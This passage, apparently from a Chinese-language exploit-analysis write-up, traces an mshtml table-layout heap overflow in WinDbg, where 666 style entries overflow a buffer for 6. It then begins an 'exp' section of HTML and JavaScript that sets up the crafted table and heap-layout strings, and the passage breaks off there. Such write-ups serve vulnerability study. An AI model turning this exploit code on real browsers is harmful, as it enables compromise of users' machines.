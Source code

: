 ```
006f1830  00001004 00001004 00000000 00000000
006f1840  00000000 00010048 3c73b87b 0800285c
006f1850  00689350 00689410 b67bb8f9 08002848

```

确实写入了6个0x1c的样式信息。



然后接下来要写入样式信息了：

```
0:005> be 1 2
0:005> bl
 0 e 6b68a078     0001 (0001)  0:**** mshtml!CTableLayout::CalculateMinMax
 1 e 6b73d7a5     0001 (0001)  0:**** mshtml!_HeapRealloc
 2 e 6b60a6cb     0001 (0001)  0:**** mshtml!CTableCol::GetAAspan
 3 d 006f17a0 w 1 0001 (0001)  0:**** 
0:005> g
Breakpoint 2 hit
eax=006764f0 ebx=006736f0 ecx=00000032 edx=00000006 esi=006f1848 edi=006764f0
eip=6b60a6cb esp=024ebdec ebp=024ebe94 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
mshtml!CTableCol::GetAAspan:
6b60a6cb 8bff            mov     edi,edi
0:005> gu
eax=0000029a ebx=006736f0 ecx=00000002 edx=00682128 esi=006f1848 edi=006764f0
eip=6b81f31f esp=024ebdf0 ebp=024ebe94 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000202
mshtml!CTableLayout::CalculateMinMax+0x3ac:
6b81f31f 3de8030000      cmp     eax,3E8h

```

eax为0x29a，即666.

接下来和前面一样是写入样式信息的过程，不过这次是对**只能容纳6个样式信息的堆空间写入了666个样式信息**，从而引发了堆溢出错误。

```
0:005> dd ebp+0x10
024ebea4  0000029a
```

### 4. exp

```html
<html>
<body>
<div id="evil"></div>
<table style="table-layout:fixed"><col id="132" width="41" span="9">&nbsp;</col></table>
<script language='javascript'>

//将字符串转换为整数
function strtoint(str) {
    return str.charCodeAt(1)*0x10000 + str.charCodeAt(0);
}

//初始化布局的字符串变量
var free = "EEEE";
while ( free.length < 500 ) free += free;
var string1 = "AAAA";
while ( string1.length < 500 ) string1 += string1;
var string2 = "BBBB";
while ( string2.length < 500 ) string2 += string2;

var fr = new Array();
var al = new Array();
```